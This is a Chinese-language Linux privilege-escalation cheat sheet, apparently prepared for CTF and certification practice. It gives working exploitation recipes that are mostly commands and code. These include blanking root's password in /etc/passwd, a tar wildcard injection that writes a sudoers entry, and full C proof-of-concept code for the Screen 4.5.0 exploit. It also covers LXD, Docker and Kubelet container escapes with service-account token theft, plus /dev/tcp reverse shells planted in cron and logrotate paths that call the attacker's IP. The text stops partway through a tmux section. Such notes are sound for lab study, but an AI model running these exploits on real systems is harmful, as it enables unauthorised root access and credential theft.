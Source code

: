 # Linux 權限提升



## **🔍 1. 資訊收集**

<table><thead><tr><th width="49.10546875">序號</th><th width="185.09765625">資訊收集指令</th><th width="343.5859375">可能發現的狀況</th><th>權限提升類型 (特別列明版本資訊)</th></tr></thead><tbody><tr><td>1</td><td><code>id</code></td><td>可能屬於 disk、adm、docker、lxd 等群組</td><td>Disk 提權、ADM 提權、Docker 提權、LXC/LXD 提權</td></tr><tr><td>2</td><td><code>uname -a</code></td><td>Linux 核心版本 (例如 5.8 至 5.17 存在 Dirty Pipe 漏洞)</td><td><a data-mention href="linux-quan-xian-ti-sheng.md#linux-he-xin-lou-dong-kernel-exploits-quan-xian-ti-sheng">#linux-he-xin-lou-dong-kernel-exploits-quan-xian-ti-sheng</a></td></tr><tr><td>3</td><td><code>cat /etc/lsb-release</code></td><td>Ubuntu 20.04 或更舊，可能有 sudo 漏洞</td><td><a data-mention href="linux-quan-xian-ti-sheng.md#linux-he-xin-lou-dong-kernel-exploits-quan-xian-ti-sheng">#linux-he-xin-lou-dong-kernel-exploits-quan-xian-ti-sheng</a></td></tr><tr><td>4</td><td><code>sudo -l</code></td><td>出現可免密碼或 SETENV 執行特定程式</td><td><a data-mention href="linux-quan-xian-ti-sheng.md#gtfobins-lu-jing-lan-yong">#gtfobins-lu-jing-lan-yong</a></td></tr><tr><td></td><td> 憑證獵取</td><td></td><td><a data-mention href="linux-quan-xian-ti-sheng.md#linux-ping-zheng-lie-qu">#linux-ping-zheng-lie-qu</a></td></tr><tr><td></td><td></td><td></td><td></td></tr><tr><td>5</td><td><code>find / -type f -iname "*flag*" 2>/dev/null</code></td><td>含有 "flag" 關鍵字檔案</td><td>資訊收集</td></tr><tr><td>6</td><td><code>ls -la /home/*</code></td><td>主目錄內有敏感檔案如 flag 或證書</td><td>資訊收集</td></tr><tr><td>7</td><td><code>find / -type f -iregex '.*\(pass|secret|key|token|config|env\).*' 2>/dev/null</code></td><td>含敏感關鍵字檔案，如 secret、key</td><td>資訊收集</td></tr><tr><td>8</td><td><code>find / -type f \( -iname ".env" -o -iname "*.env" -o -iname ".git*" -o -iname "*config*" \) 2>/dev/null</code></td><td>常見敏感檔案 (.env, .git)</td><td>資訊收集</td></tr><tr><td>9</td><td><code>find / -type f -path "*/.ssh/*" 2>/dev/null</code></td><td>SSH 私鑰或憑證</td><td>資訊收集</td></tr><tr><td>10</td><td><code>cat ~/.bash_history</code> 或 <code>cat ~/.zsh_history</code></td><td>歷史命令含敏感資訊如密碼</td><td>資訊收集</td></tr><tr><td>11</td><td><code>find / -type f -iregex '.*\(bak|backup|old|tar|zip\)$' 2>/dev/null</code></td><td>系統中容易被忽略的備份檔案</td><td>資訊收集</td></tr><tr><td>12</td><td><code>find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;</code></td><td>檢查有 cap_setuid 權限檔案</td><td>Linux Capabilities 提權</td></tr><tr><td>13</td><td><code>cat /etc/crontab</code></td><td>發現 cron job 路徑可寫</td><td>Cron Job 濫用</td></tr><tr><td>14</td><td><code>screen -v</code></td><td>版本 ≤ 4.5.0 存在漏洞</td><td>Screen Vulnerable (版本 ≤ 4.5.0)</td></tr><tr><td>15</td><td><code>find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null</code></td><td>發現 root 執行嘅可寫 script</td><td>通配符濫用 (tar 等)</td></tr><tr><td>16</td><td><code>cat /etc/logrotate.conf</code> 和 <code>grep "create|compress" /etc/logrotate.conf</code></td><td>logrotate 設定不當</td><td>日誌輪轉 Logrotate</td></tr><tr><td>17</td><td><code>ps aux | grep tmux</code></td><td>tmux 會話有 socket 未保護</td><td>tmux 劫持 (Hijacking Tmux Sessions)</td></tr><tr><td>18</td><td><code>ss -tulnp</code> 或 <code>netstat -tulnp</code></td><td>開放的服務可能被利用</td><td>被動流量捕獲或服務利用</td></tr><tr><td>19</td><td><code>cat /etc/resolv.conf</code></td><td>DNS 配置洩漏內部網域資訊</td><td>資訊收集</td></tr><tr><td>20</td><td><code>showmount -e &#x3C;ip></code></td><td>發現 no_root_squash 的 NFS 設定</td><td>弱 NFS 權限 (Weak NFS Privileges) 提權</td></tr><tr><td>21</td><td><code>find / -perm -4000 -type f 2>/dev/null</code></td><td>可疑 SUID 檔案 (可能被利用)</td><td>GTFOBins 路徑濫用</td></tr><tr><td>22</td><td><code>ls -l mem_status.py</code></td><td>發現 SUID Python 檔案引用可寫入模組</td><td>Python 函式庫劫持</td></tr><tr><td>23</td><td><code>pkexec -u root id</code></td><td>polkit 版本存在漏洞</td><td>Polkit 波爾基特 (CVE-2021-4034 / PwnKi)</td></tr><tr><td>24</td><td><code>readelf -d &#x3C;binary> | grep PATH</code></td><td>RUNPATH 指向可寫入路徑</td><td>共享對象劫持 (Shared Object Hijacking)</td></tr><tr><td>25</td><td><code>find / -perm -o+w -type d 2>/dev/null</code></td><td>發現可寫目錄，可用作共享對象劫持</td><td>共享對象劫持 (Shared Object Hijacking)</td></tr><tr><td>26</td><td><code>cat /etc/passwd</code></td><td>發現異常使用者或提示</td><td>資訊收集</td></tr></tbody></table>

***

#### ⚠️&#x20;

{% hint style="info" %}
1. **用户组检查：** 首先，通过 `id` 命令检查当前用户所属的组别，确定是否属于具有特殊权限的组，如 `disk`、`adm`、`docker`、`lxd` 等。这些组的成员可能拥有对系统关键部分的访问权限，可能导致权限提升。​**使用者群組檢查：** 首先，透過 `id` 指令檢查目前使用者所屬的組別，確定是否屬於具有特殊權限的群組，如 `disk` 、 `adm` 、 `docker` 、 `lxd` 等。這些群組的成員可能擁有對系統關鍵部分的存取權限，可能導致權限提升。 號
2. **系统版本信息：** 接下来，使用 `uname -a` 和 `cat /etc/lsb-release` 获取内核版本和操作系统版本信息。这有助于识别已知的漏洞和可利用的漏洞利用方式。​**系統版本資訊：** 接下來，使用 `uname -a` 和 `cat /etc/lsb-release` 取得核心版本和作業系統版本資訊。這有助於識別已知的漏洞和可利用的漏洞利用方式。 號
3. **sudo 权限：** **sudo 權限：** 使用 `sudo -l` 檢查目前使用者的 sudo 權限配置，識別可能的不安全配置或可利用的權限提昇路徑。號使用 `sudo -l` 检查当前用户的 sudo 权限配置，识别可能的不安全配置或可利用的权限提升路径。​
4. **文件搜索与检查：** 然后，使用一系列 `find` 命令和其他文件检查命令，搜索系统中可能包含敏感信息或可利用的文件和目录。这些步骤有助于收集潜在的漏洞利用信息。​**檔案搜尋與檢查：** 然後，使用一系列 `find` 指令和其他檔案檢查指令，搜尋系統中可能包含敏感資訊或可利用的檔案和目錄。這些步驟有助於收集潛在的漏洞資訊。 號
5. **计划任务与服务：** 检查计划任务配置（如 `cat /etc/crontab`）和正在运行的服务（如 `ss -tulnp`），识别可能存在的安全漏洞或可利用的服务。​**排程任務與服務：** 檢查排程任務配置（如 `cat /etc/crontab` ）和正在執行的服務（如 `ss -tulnp` ），識別可能存在的安全漏洞或可利用的服務。 號
6. **特殊权限文件：** 搜索具有特殊权限的文件（**特殊權限檔案：** 搜尋具有特殊權限的檔案


{% endhint %}



***

## **🚀 2.** 權限提升

<details>

<summary> GTFOBins : 路徑濫用</summary>

### ✅ 步驟1️⃣：先進行本地系統枚舉

你需要找到可疑的執行檔或權限：

* **找 sudo 權限**：

```bash
sudo -l
```

> 如果結果裡面有 `NOPASSWD: /usr/bin/something`\
> → 記下 `something` 這個指令，去 GTFOBins 搜索！

***

* **找 SUID 程式**（root 權限執行檔）：

```bash
find / -perm -4000 -type f 2>/dev/null
```

> 看到的可執行檔，例如 `/usr/bin/nmap` 或 `/usr/bin/vim`\
> → 記下來，去 GTFOBins 搜索！

***

* **找 capabilities**：

```bash
find / -type f -exec getcap {} \; 2>/dev/null
```

> 如果出現像 `/usr/bin/vim.basic = cap_dac_override+ep`\
> → 把 `vim` 記下來，去 GTFOBins 搜索！

***

### ✅ 步驟2️⃣：打開 [https://gtfobins.github.io/](https://gtfobins.github.io/)

***

### ✅ 步驟3️⃣：搜尋你剛剛枚舉到的執行檔

👉 例如你找到 `/usr/bin/nmap`

* 去 GTFOBins 主頁，在「Search」欄輸入：`nmap`

***

### ✅ 步驟4️⃣：點進去之後看分類

會有幾個 section：

* `Shell`（怎麼用它打出反彈 shell 或本地 shell）
* `SUID`（如果有 SUID 權限怎麼利用）
* `sudo`（如果可以 sudo 執行這個程式怎麼提權）
* `File Write` / `File Read`（可讀可寫檔案）
* `Capabilities`（如果有 cap 權限可以怎麼繞過限制）

👉 你根據你找到的權限去看對應的章節！

***

### ✅ 步驟5️⃣：跟著 payload 做！

例如：

* 如果 `nmap` 有 SUID 權限，網頁上會寫：

```bash
bash複製編輯nmap --interactive
!sh
```

* 代表你只需要輸入這兩行，你就 root 了！

***

### ✅ 實戰示範：

舉例：

> 你枚舉出 `/usr/bin/vim.basic = cap_dac_override+ep`

* 去 GTFOBins 搜尋 `vim`
* 找到 `Capabilities` 章節
* 跟著網頁 payload：

```
nginx複製編輯vim -c ':!sh'
```

* 然後就拿到 shell！

</details>

<details>

<summary>利用 vim.basic :   通配符濫用</summary>

1️⃣ 找出有 `cap_dac_override` 權限的執行檔

執行以下指令：

```bash
find /usr/bin/ /usr/sbin/ /usr/local/bin/ /usr/local/sbin/ -type f -exec getcap {} \;
```

這個指令會幫你列出有 `cap` 權限的檔案。\
✅ 如果你看到像這樣的結果：

```bash
/usr/bin/vim.basic = cap_dac_override+ep
```

代表 `vim.basic` 可以用來打開系統檔案。

***

### 2️⃣ 利用 `vim.basic` 開啟 `/etc/passwd`

輸入：

```bash
/usr/bin/vim.basic /etc/passwd
```

這樣可以用 `vim` 打開 `/etc/passwd`，一般來說是不能修改的，但是因為有 cap\_dac\_override，所以可以！

***

### 3️⃣ 編輯 `/etc/passwd`

打開後：

* 找到最上面那一行：

```bash
root:x:0:0:root:/root:/bin/bash
```

* 把 `x` 刪掉，變成：

```bash
root::0:0:root:/root:/bin/bash
```

* 存檔離開（在 vim 輸入 `:wq` 然後按 `Enter`）

***

### 4️⃣ 使用 `su` 切換成 root

現在可以直接輸入：

```bash
su root
```

然後直接按 `Enter`，不需要密碼，就會變成 root。

</details>

<details>

<summary>通配符濫用 (tar )</summary>

#### 一、枚舉階段（找漏洞）

**1️⃣ 枚舉 cron job**

```bash
cat /etc/crontab
ls -la /etc/cron.*
```

如果需要 sudo：

```bash
sudo cat /etc/crontab
sudo ls -la /etc/cron.*
```

**2️⃣ 看 cron job 裡面有沒有 `*`（星號）**

範例：

```
*/1 * * * * root cd /some/path && tar -czf backup.tar.gz *
```

✅ 發現有星號 `*` 且執行者是 `root`，表示有機會。

**3️⃣ 確認用的程式是不是有漏洞**

| 程式名   | 是否可以用通配符漏洞                          | 說明                                                                                                             |
| ----- | ----------------------------------- | -------------------------------------------------------------------------------------------------------------- |
| tar   | ✅ 支援 `--checkpoint-action=exec=CMD` | <p>非常常見漏洞</p><p></p><pre class="language-shell-session"><code class="lang-shell-session">man tar
</code></pre> |
| zip   | 部分版本 ✅                              | 可嘗試                                                                                                            |
| rsync | ✅ 可利用 `--rsync-path`                | 少見但強大                                                                                                          |
| find  | 可利用 `-exec`                         | 較少用作通配符攻擊，但可以配合不安全參數利用                                                                                         |

**4️⃣ 檢查目錄可寫權限**

```bash
ls -ld /some/path
```

如果有 `w`（寫入）權限，代表你可以放入惡意檔案。

***

#### 二、利用階段（實戰 Exploit）

👉 以下以 tar 為例（最常見）

**1️⃣ 建立 root.sh（放入惡意指令）**

```bash
echo 'echo "youruser ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
```

> 把 `youruser` 換成你的帳號。

**2️⃣ 建立特殊檔名（讓 tar 自己執行）**

```bash
echo "" > "--checkpoint-action=exec=sh root.sh"
echo "" > "--checkpoint=1"
```

**3️⃣ 等待 cron job 自動執行（或手動觸發）**

* 當 root 的 cron job 執行 tar 時，它會自動執行 `root.sh`

**4️⃣ 檢查 sudo 權限**

```bash
sudo -l
```

應該會看到 `NOPASSWD: ALL`\
代表可以無密碼 sudo。

**5️⃣ 提權成功**

```bash
sudo su
```

拿到 root！

</details>

<details>

<summary> 逃離受限 Shell</summary>

### ✅ 一、Command Injection（指令注入逃脫）

#### 💡 什麼意思？

當受限 shell 只允許執行固定參數指令（例如只能用 `ls -l`），\
你可以把**額外指令透過參數注入**進去執行！

#### ✅ 範例：

```bash
ls -l `pwd`
```

或

```bash
ls -l $(whoami)
```

➡ 後面的 `pwd`、`whoami` 雖然 shell 不允許直接打，但透過反引號 / `$()` 注入執行！

***

### ✅ 二、Command Substitution（命令替換逃脫）

#### 💡 什麼意思？

用反引號 `` `command` `` 或 `$()` 方式，\
讓 shell 在允許指令參數中偷偷執行其他指令。

#### ✅ 範例：

```bash
ls -l `id`
ls -l $(id)
```

➡ 它會執行 `id`，把結果當參數傳給 `ls`，實現逃脫。

***

### ✅ 三、Command Chaining（命令鏈逃脫）

#### 💡 什麼意思？

利用 `;`、`&&`、`||` 等符號，\
在受限 shell 裡同時執行多個指令。

#### ✅ 範例：

```bash
ls -l ; /bin/sh
```

➡ `ls -l` 之後就直接打開 `/bin/sh`！

如果 `;` 被過濾，可以試 `&&` 或 `|`：

```bash
ls -l && /bin/sh
ls -l | /bin/sh
```

***

### ✅ 四、Environment Variables（環境變數逃脫）

#### 💡 什麼意思？

修改 `PATH` 環境變數或定義特殊變數，\
讓 shell 使用到可控路徑中的惡意程式或開放指令。

#### ✅ 範例：

```bash
export PATH=/tmp:$PATH
echo '/bin/sh' > /tmp/ls
chmod +x /tmp/ls
```

➡ 下次執行 `ls` 就會變成執行你自定義的 `/bin/sh`。

***

### ✅ 五、Shell Functions（自定義函數逃脫）

#### 💡 什麼意思？

如果 shell 允許定義 function，你可以建立一個函數覆蓋原本的指令，\
讓它執行惡意命令。

#### ✅ 範例：

```bash
function ls { /bin/sh; }
ls
```

➡ 下次執行 `ls` 時直接彈出 shell！

</details>

<details>

<summary>LXC / LXD 提權</summary>

#### ✅ 條件判斷

執行：

```bash
id
```

如果 `groups` 裡面有 `lxd` ，代表可以用 LXD 提權！

***

#### ✅ LXD 提權完整步驟

> **Step by step：**

1️⃣ 解壓 Alpine 映像檔（通常題目會給 alpine.tar.gz）：

```bash
unzip alpine.zip
cd "64-bit Alpine"
```

2️⃣ 初始化 LXD（遇到提示都選預設）：

```bash
lxd init
```

如果出錯 `must be run as root`，可以忽略或先嘗試 `sudo lxd init`

> 如果不行就直接用 `lxc` 指令。

3️⃣ 匯入 Alpine 映像：

```bash
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
```

4️⃣ 建立特權容器：

```bash
lxc init alpine pwncontainer -c security.privileged=true
```

5️⃣ 把主機掛載進容器：

```bash
lxc config device add pwncontainer pwnroot disk source=/ path=/mnt/root recursive=true
```

6️⃣ 啟動容器：

```bash
lxc start pwncontainer
```

7️⃣ 進入容器拿 root：

```bash
bash複製編輯lxc exec pwncontainer /bin/sh
cd /mnt/root
```

從這裡就可以 root 身份操作整個主機，讀 `/etc/shadow`、改 SSH Key 通通行。

***

### 二、Docker 提權

#### ✅ 判斷方法：

```bash
id
```

如果有 `docker` 群組 → 可以用 docker 提權！

#### ✅ Docker 提權方式

```bash
docker run -v /:/mnt --rm -it ubuntu chroot /mnt sh
```

* `-v /:/mnt`：把主機的根目錄掛到容器 `/mnt`
* `chroot /mnt sh`：進入主機 root
* 現在你就是 root 了！

***

### 三、Disk 群組提權

#### ✅ 判斷方法：

```bash
id
```

如果有 `disk` 群組 → 代表可以存取 `/dev/sda*` 裝置。

#### ✅ 利用方法

* 使用 `debugfs` 或 `fdisk`、`mount` 去掛載硬碟，讀取敏感檔案：

```bash
sudo debugfs /dev/sda1
debugfs: cat /etc/shadow
```

可以直接讀出 root 密碼 hash。

***

### 四、ADM 群組利用

#### ✅ 判斷方法：

```bash
id
```

如果有 `adm` 群組 → 可以讀取 `/var/log/` 日誌。

#### ✅ 利用方向

* 閱讀 log，發現敏感資料

```bash
cat /var/log/auth.log
cat /var/log/mysql/error.log
cat /var/log/nginx/access.log
```

* 常見線索：
  * cron job 執行的內容
  * 認證憑證或密碼被誤記錄在 log
  * 有人手誤打過 `sudo` 密碼被記錄下來

</details>

<details>

<summary> Linux Capabilities 提權</summary>

### 1️⃣ 什麼是 Linux Capabilities？

Linux capabilities 是一種安全設計，\
可以讓**特定執行檔**獲得部分 root 權限（不需要整個 root）。

這樣可以：

* 控制更細粒度的權限
* 比傳統的 sudo、setuid 更靈活

***

### 2️⃣ 常見危險 Capabilities（遇到要特別注意）

| 能力（Capability）              | 危險用途說明                           |
| --------------------------- | -------------------------------- |
| **cap\_dac\_override**      | 允許繞過檔案讀寫執行權限，可以打開或修改任何檔案         |
| **cap\_sys\_admin**         | 超級大權限，幾乎等同 root，可以掛載系統、修改設定      |
| **cap\_setuid**             | 允許程式改變自己 UID，可以偽裝成其他使用者（甚至 root） |
| **cap\_setgid**             | 允許改變 GID，同樣可以透過群組提權              |
| **cap\_net\_bind\_service** | 允許在低端口（1024以下）開伺服器，一般需要 root 權限  |
| **cap\_sys\_ptrace**        | 允許 attach & 偵錯其他程序，可能繞過保護或提權     |

***

### 3️⃣ 如何列舉系統所有 capabilities

```bash
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \; 2>/dev/null
```

舉例結果：

```
/usr/bin/vim.basic cap_dac_override=ep
/usr/bin/ping cap_net_raw=ep
```

✅ 把結果拿去 GTFOBins 查詢，或者判斷是否可直接用來繞過限制。

***

### 4️⃣ 利用範例：

#### ✅ （範例 1）利用 cap\_dac\_override

假設找到：

```
/usr/bin/vim.basic cap_dac_override=ep
```

代表可以繞過檔案權限，直接打開 `/etc/passwd` 編輯！

步驟：

```bash
/usr/bin/vim.basic /etc/passwd
```

將：

```
root:x:0:0:root:/root:/bin/bash
```

改成：

```
root::0:0:root:/root:/bin/bash
```

儲存後：

```bash
su root
```

直接 root！

***

#### ✅ （範例 2）非互動模式修改 /etc/passwd

如果不想開互動編輯，可以一行解決：

```bash
echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
```

然後直接 `su root` 即可！

***

#### ✅ （範例 3）cap\_sys\_admin 利用

* 如果有 `cap_sys_admin`，可以透過 `mount` 掛載設備、使用 `pivot_root` 或直接改系統設定。
* 或使用 `fuse`、`modprobe` 等間接方法取得 shell。

***

### 5️⃣ 如何清除 Capabilities（系統管理員角度）

```bash
sudo setcap -r /path/to/binary
```

`-r` 代表 remove capabilities。

***

### 6️⃣ 小結表（考試 / CTF 快速參考）

| 能力名稱                    | 危險程度 | 用途                                     | 如何利用                         |
| ----------------------- | ---- | -------------------------------------- | ---------------------------- |
| cap\_dac\_override      | 高    | 可繞過檔案存取權限                              | 編輯 `/etc/passwd` 讓 root 無密碼  |
| cap\_sys\_admin         | 非常高  | 幾乎 root 全能                             | 掛載、注入核心模組、直接系統控制             |
| cap\_setuid             | 高    | 可以把程式提權執行                              | 利用程式讓自己 UID 變 root           |
| cap\_net\_bind\_service | 中    | 開低埠服務                                  | 開 80 埠、443 埠 listener，偷資料、釣魚 |
| cap\_sys\_ptrace        | 高    | 可以 attach 其他 process，看 memory、注入 shell | 偵錯其他程式取得密碼或注入 payload        |

***

### 7️⃣ 終極一行 — 列舉 + 分析

```bash
find / -type f -exec getcap {} \; 2>/dev/null | grep -E 'cap_dac_override|cap_sys_admin|cap_setuid|cap_sys_ptrace'
```

找出系統中最值得關注的 binary。

</details>

<details>

<summary> Screen Vulnerable</summary>

### ✅ **漏洞確認步驟**：

1️⃣ 查看 screen 版本：

```bash
screen -v
```

如果小於或等於 `4.5.0`：

```
Screen version 4.05.00 (GNU) 10-Dec-16
```

✅ 確認漏洞存在。

2️⃣ 查看是否有 setuid 權限：

```bash
ls -l /usr/bin/screen
```

看到 `rws`（setuid）就是有漏洞。

***

### ✅ **利用流程（完整 PoC）**

#### 步驟一：建立惡意 so 檔案

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/stat.h>

__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

* 這個程式碼的作用是：
  * 把 `/tmp/rootshell` 改成 root 擁有
  * 給予 setuid 權限
  * 並清理 `ld.so.preload`

編譯：

```bash
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
```

***

#### 步驟二：建立 rootshell

```c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

編譯：

```bash
gcc -o /tmp/rootshell /tmp/rootshell.c -Wno-implicit-function-declaration
```

***

#### 步驟三：利用 Screen 輸入 payload

```bash
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
```

* 這行會創建 `/etc/ld.so.preload` 且內容是 `/tmp/libhax.so`
* 每當有 binary 載入共享函式庫時，會執行 `dropshell`

***

#### 步驟四：觸發

```bash
screen -ls
```

* `screen` 自己就是 setuid binary，觸發之後 `/tmp/rootshell` 已經有 root 權限。

***

#### 步驟五：拿到 root

```bash
/tmp/rootshell
id
```

✅ 你就 root 了！

***

###

</details>

<details>

<summary>Cron Job 濫用</summary>

#### ✅ 枚舉步驟

* 查看所有 world-writable 檔案（所有人可寫）

```bash
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

* 找到像這種：

```
/dmz-backups/backup.sh
```

* 用 `ls -la` 查看權限：

```bash
ls -la /dmz-backups/
```

如果看到：

```
-rwxrwxrwx  1 root root backup.sh
```

代表**以 root 執行但可被你編輯**，超危險！

***

### 3️⃣ 確認 cron job 正在執行

* 使用 `pspy`（無 root 權限也能用）觀察：

```bash
./pspy64 -pf -i 1000
```

* 當 pspy 顯示：

```
UID=0    | /bin/bash /dmz-backups/backup.sh
```

✅ 證明 cron job 正在定時用 root 執行這個 script！

***

### 4️⃣ 如何利用漏洞

#### ✅ （步驟一）備份原始腳本

```bash
cp /dmz-backups/backup.sh /tmp/backup.sh.bak
```

#### ✅ （步驟二）編輯 backup.sh

把你的反向 shell 加到腳本最後面：

```bash
echo "bash -i >& /dev/tcp/你的IP/你的Port 0>&1" >> /dmz-backups/backup.sh
```

或者手動編輯加入：

```bash
#!/bin/bash
SRCDIR="/var/www/html"
DESTDIR="/dmz-backups/"
FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR

bash -i >& /dev/tcp/你的IP/你的PORT 0>&1
```

#### ✅ （步驟三）開啟 netcat 等待連線

```bash
nc -lnvp 你的PORT
```

#### ✅ （步驟四）等待 cron job 觸發（通常 3 分鐘內）

你就會看到 root shell 連進來！

***

### 5️⃣ 成功範例

```nginx
listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.2.12]
root@NIX02:~# id
uid=0(root) gid=0(root)
```

✅ 你就 root 了！

***

###

</details>

<details>

<summary>匿名 Kubelet API 存取</summary>

### 4️⃣ 常見攻擊面

#### ✅ 匿名 Kubelet API 存取

* Kubelet API 常開放在 `10250` port
* 匿名訪問測試：

```bash
curl -k https://<target-ip>:10250/pods
```

若有回應 `PodList`，代表匿名可讀 Pod 資訊。

***

### 5️⃣ 利用 kubeletctl 工具進行自動化操作

安裝方式：

```bash
go install github.com/cyberark/kubeletctl@latest
```

常用指令範例：

* 列出 Pod：

```bash
kubeletctl --server <ip> pods
```

* 執行指令 (例如查看 ID)：

```bash
kubeletctl --server <ip> exec "id" -p <pod-name> -c <container-name>
```

* 掃描可 RCE 的 Pod：

```bash
kubeletctl --server <ip> scan rce
```

* 取得 Token：

```bash
kubeletctl --server <ip> exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p <pod-name> -c <container-name> > k8.token
```

* 取得 CA 證書：

```bash
kubeletctl --server <ip> exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p <pod-name> -c <container-name> > ca.crt
```

***

### 6️⃣ 利用取得的 token / ca.crt 操作 kubectl

* 驗證權限：

```bash
export token=$(cat k8.token)
kubectl --token=$token --certificate-authority=ca.crt --server=https://<api-server-ip>:6443 auth can-i --list
```

* 如果擁有 `create` pod 權限，可以建立掛載主機根目錄的惡意 Pod。

***

### 7️⃣ 惡意 Pod YAML 範例 (掛載主機 `/` )

```yaml
yaml複製編輯apiVersion: v1
kind: Pod
metadata:
  name: privesc
  namespace: default
spec:
  containers:
  - name: privesc
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
       path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

* 建立 Pod：

```bash
kubectl --token=$token --certificate-authority=ca.crt --server=https://<api-server-ip>:6443 apply -f privesc.yaml
```

* 確認 Pod 運行：

```bash
kubectl --token=$token --certificate-authority=ca.crt --server=https://<api-server-ip>:6443 get pods
```

* 進入 Pod 內部、提取主機 root 資料：

```bash
kubeletctl --server <ip> exec "cat /root/root/.ssh/id_rsa" -p privesc -c privesc
```

</details>

<details>

<summary>日誌旋轉 Logrotate</summary>

### 1️⃣ **什麼是 Logrotate？**

* **logrotate** 是 Linux 系統自動管理日誌（log）的工具。
* 主要功能：
  * 定期壓縮、歸檔、刪除舊日誌
  * 減少磁碟空間使用
  * 預設由 **cron** 週期性執行

***

### 2️⃣ **可被利用的漏洞條件**

1. 我們必須擁有**可寫入的日誌檔案**
2. logrotate 必須以 **root 或高權限** 執行
3. 系統中使用的 logrotate 版本為易受攻擊版本：
   * 3.8.6
   * 3.11.0
   * 3.15.0
   * 3.18.0

***

### 3️⃣ **漏洞原理 (logrotten)**

* 透過將惡意 payload 注入日誌檔案
* 當 logrotate 運行，並根據 `create` 選項重新建立 log 時
* 惡意內容會被執行，達到本地提權

***

### 4️⃣ **確認系統配置**

1. 查看全域設定檔：

```bash
cat /etc/logrotate.conf
```

2. 確認是否使用 `create` 選項（代表會執行重新建立行為）：

```bash
grep "create\|compress" /etc/logrotate.conf | grep -v "#"
```

如果看到：

```
create
```

✅ 表示可以用 logrotten 利用此行為！

***

### 5️⃣ **準備漏洞工具 logrotten**

```bash
git clone https://github.com/whotwagner/logrotten.git
cd logrotten
gcc logrotten.c -o logrotten
```

***

### 6️⃣ **準備 Payload**

* 常見反向 shell 一行式：

```bash
echo 'bash -i >& /dev/tcp/你的IP/PORT 0>&1' > payload
```

例如：

```bash
echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
```

***

### 7️⃣ **開啟本地監聽器**

```bash
nc -nlvp 9001
```

等待反彈 shell。

***

### 8️⃣ **執行漏洞攻擊**

```bash
./logrotten -p ./payload /tmp/tmp.log
```

* `/tmp/tmp.log` 就是你有寫權限的日誌檔案路徑。

***

### 9️⃣ **結果**

等 cron job 執行 logrotate 後，你的 listener 裡會看到連線：

```
Connection received on 10.129.24.11 49818
# id
uid=0(root) gid=0(root) groups=0(root)
```

✅ 提權成功！

***

###

</details>

<details>

<summary>tmux 劫持 (Hijacking Tmux Sessions)</summary>

### 🎯 **攻擊前提**

* 系統上有一個 tmux session 在執行
* 該 tmux 的 socket 檔案權限設定為某個群組 (例如 devs) 可讀寫
* 你目前的帳號就是該群組成員

***

### ✅ Step by step — 流程

***

#### ① 確認是否有 tmux session 執行中

```bash
ps aux | grep tmux
```

🔎 觀察輸出結果，例如：

```
root      4806  0.0  0.1  29416  3204 ?        Ss   06:27   0:00 tmux -S /shareds new -s debugsess
```

👉 找到 `-S /shareds` 就是 socket 路徑

***

